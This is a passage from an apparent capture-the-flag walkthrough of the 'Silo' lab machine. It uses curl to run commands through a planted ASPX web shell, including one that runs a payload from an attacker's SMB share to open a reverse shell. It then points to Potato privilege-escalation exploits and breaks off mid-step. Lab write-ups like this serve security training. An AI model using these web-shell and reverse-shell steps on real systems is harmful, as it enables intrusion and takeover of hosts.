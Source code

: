 Then test as follows:

```bash
curl -s http://10.10.10.82/bubba.aspx?c=whoami
```

![user1](./silo/user1.png)

Use this to get a dedicated reverse shell using the same payload that was used in the scheduled Oracle task to get a SYSTEM shell:

```bash
curl -s -G --data-urlencode 'c=\\10.10.14.25\BUBBA\bubba.exe' http://10.10.10.82/bubba.aspx
```

![user2](./silo/user2.png)

This account has interesting privileges. The `SeImpersonatePrivilege` allows for the following exploits:

- https://github.com/ohpe/juicy-potato
- https://github.com/CCob/SweetPotato

Get a CSLID for the target OS version `Microsoft Windows Server 2012 R2 Standard` (from `systeminfo`):
